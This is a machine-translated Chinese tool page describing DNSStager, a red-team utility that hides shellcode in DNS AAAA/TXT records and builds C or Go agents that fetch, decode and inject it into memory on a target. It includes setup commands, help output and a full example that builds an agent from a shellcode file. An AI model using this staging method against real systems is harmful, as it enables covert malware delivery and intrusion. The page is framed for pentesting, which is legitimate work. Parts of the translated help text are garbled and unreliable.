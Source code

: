 # DNSStager:在 DNS 中隐藏你的有效负载

> 原文：<https://kalilinuxtutorials.com/dnsstager/>

[![DNSStager : Hide Your Payload In DNS](img/5acbb84f2d7b1f3714b4a5180f896817.png "DNSStager : Hide Your Payload In DNS")](https://1.bp.blogspot.com/-cQpAXZAc-Bk/YPT4sQIOvpI/AAAAAAAAKFk/2QeZAuGLDTopeNNk8FsqkqcGylEs9tU4ACLcBGAsYHQ/s1041/DNSStager%2B%25281%2529.png)

**DNSStager** 是一个基于 Python 的开源项目，用于使用 DNS 隐藏和传输您的有效负载。

DNSStager 将创建一个恶意的 DNS 服务器，处理对您的域的 DNS 请求，并在将您的有效负载拆分成块并使用不同的算法对其进行编码后，返回您的有效负载作为对特定记录请求(如`AAAA`或`TXT`记录)的响应。

DNSStager 可以生成一个用`C`或`GoLang`编写的定制代理，它将解析一系列域，检索有效负载，解码它，并最终根据您想要的任何技术将其注入内存。

您可以随意编辑 DNSStager 代理的代码，并使用您自己的定制执行技术来构建它。

使用 DNSStager 的主要目的是帮助 red teamers/pentesters 使用 DNS 在隐形通道中交付其有效载荷。

它是如何工作的？

根据您的 DNS 解析选项，DNSStager 会将您的有效负载拆分为多个块，并将每个有效负载块保存为一个子域的响应。

例如，如果您选择`**IPV6**`作为检索有效负载的选项，DNS 响应将类似于:

`**cloud-srv-1.test.mydnsserver.live. 300 IN AAAA 5648:31d2:6548:8b52:6048:8b52:1848:8b52**`

其中`**5648:31d2:6548:8b52:6048:8b52:1848:8b52**`是有效载荷的一部分。

因此，代理将解析一些域来检索有效载荷，然后对其进行解码，最后将其注入内存。

目前 DNSStager 只支持两个记录，`**AAAA**`和`**TXT**`。您可以使用 XOR 对`AAAA`记录进行编码，默认情况下，如果您选择`TXT`记录，它将被编码为 base64。

**DNSStager 的主要特性**

DNSStager 具有一些关键特性，例如:

*   在`**IPV6**`记录中隐藏并解析你的有效载荷。
*   在`**TXT**`记录中隐藏并解析你的有效载荷。
*   XOR 编码器来编码你的有效载荷。
*   Base64 编码器来编码您的有效负载(仅用于 TXT 记录)。
*   用 **`C`** 编写的纯代理具有定制它的能力。
*   用`**GoLang**`编写的纯代理，能够定制它。
*   在每次 DNS 请求之间使用睡眠的能力。
*   更多精彩即将到来！

**要求**

您可以通过以下方式安装 DNSStager python 要求:

`**pip3 install -r requirements.txt**`

您需要安装`**GoLang**`版本`1.16.3`，并确保安装以下`**GoLang**`包:

*   golang.org/x/sys
*   github.com/miekg/dns

此外，确保通过以下方式安装`**ming-w64**`:

`**apt install mingw-w64**`

脚本`**setup.sh**`应该可以帮你做到这一点，但是在你使用它之前要仔细检查需求！

**安装**

要获取 DNSStager 的最新版本，请确保使用以下命令从该存储库中克隆它:

`**git clone https://github.com/mhaskar/DNSStager**`

然后，您需要使用以下命令安装需求:

`**pip3 install -r requirements.txt**`

并确保安装前面提到的所有要求。

完成所有这些之后，您就可以以根用户的身份执行 DNSStager **来获得以下内容:**

**┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py
██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝
Beta Version Hide your payload in DNS
[-] Please specify a domain name using –domain**

**用途**

要开始使用 DNSStager，请确保首先设置您的 DNS 设置，您需要将您的域作为`**NS record**`指向 DNSStager 实例，以便处理您的域的所有 DNS 请求。

您可以阅读这篇关于如何设置和使用 DNSStager 的完整文章。

您可以使用`**-h**`开关检查选项，如下所示:

**┌─[askar@hackbook]─[/opt/redteaming/dnsstager】
└──╼$须藤。/dnsstager.py -h
用法:DNSStager . py[-h][–DOMAIN DOMAIN][–PREFIX PREFIX]
[–PAYLOAD PAYLOAD][–OUTPUT OUTPUT]
[–SHELLCODE _ PATH SHELLCODE _ PATH][–xor key xor key]
[–SLEEP]
DNSStager 主解析器
可选参数:
-h，–help 显示此帮助消息并退出
–DOMAIN 要用作域的域 请参见–有效负载了解更多详细信息
–输出输出代理输出路径
–外壳代码 _ 路径外壳代码 _ 路径
外壳代码文件路径
–XOR key XOR key XOR key 使用
对有效负载进行编码–睡眠睡眠在每次 DNS 请求之间睡眠 N 秒**

*   –域:您可以使用此选项来选择您将用来处理 DNS 请求的主域。
*   —前缀:要用于子域模式的前缀例如，如果您的主域是 **`fakedns.live`** 您可以将前缀指定为“cdn”，因此生成的域将是如下模式:
    *   `**cdn0.fakedns.live**`
    *   `**cdn1.fakedns.live**`
    *   `**cdnN.fakedns.live**`

其中`**N**`是自动生成的数字，代表您的有效负载的块数。

*   –payload:您希望基于技术、编程语言和架构生成的 DNSStager 有效负载“代理”。
*   –Output:保存 DNSStager 可执行负载“代理”的输出路径。
*   –shellcode _ path:您的 **`raw` / `bin`** shellcode 路径。
*   –XOR key:用于对有效负载进行编码的 XOR 键。
*   –sleep:用于在每次 DNS 请求之间休眠 N 秒。

**DNSStager 有效载荷**

要检查可用的 DNSStager 有效负载，您可以使用`**./dnsstager.py --payloads**`获得以下结果:

**┌─[askar@hackbook]─[/opt/redteaming/dnsstager】
└──╼$须藤。/DNS stager . py–有效负载
[+] 6 个 DNSStager 有效负载可用
x64/c/ipv6 通过编译的 x64 C 代码将有效负载解析为与自定义密钥异或的 ipv6 地址
x86/c/ipv6 通过编译的 x86 C 代码将有效负载解析为与自定义密钥异或的 ipv6 地址
x64/golang/txt 将有效负载解析为使用 base64 编译的 x64 GoLang 代码编码的 txt 记录
x64/golang/ipv6 将有效负载解析为使用自定义密钥编码的 IPV6 地址通过编译的 x64 GoLang 代码使用字节添加编码
x86/golang/txt 使用 base64 编译的 x86 GoLang 代码编码的记录
x86/golang/ipv6 通过编译的 x86 GoLang 代码使用字节添加编码将有效负载解析为使用自定义密钥编码的 ipv6 地址**

**在 IPV6 中使用 DNSStager 的示例**

此示例将启动 DNSStager，使用带有前缀`**cloud-srv-**`的域`**test.mydnsserver.live**`将您的有效负载解析为`**IPV6**`，以生成使用 0x10 作为关键字编码的编译后的`**x64 C**`代理:

`**sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10**`

输出将是:

![](img/36868a9b13e0fc60701e99e2283a07ce.png)

为了检查一切是否正常，让我们向`cloud-srv-0.test.mydnsserver.live`发送 DNS 查询以获得以下内容:

![](img/36868a9b13e0fc60701e99e2283a07ce.png)

我们可以看到，我们收到了作为响应的`**f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b**`,这是我们编码的有效载荷的前 16 个字节。

然后，您可以在目标机器上执行代理 **`/tmp/a2.exe`** (如在命令行中的 using–output 中所设置的)，它将下载所有需要的块，对它们进行解码，并为您将它们注入内存。

[**Download**](https://github.com/mhaskar/DNSStager)
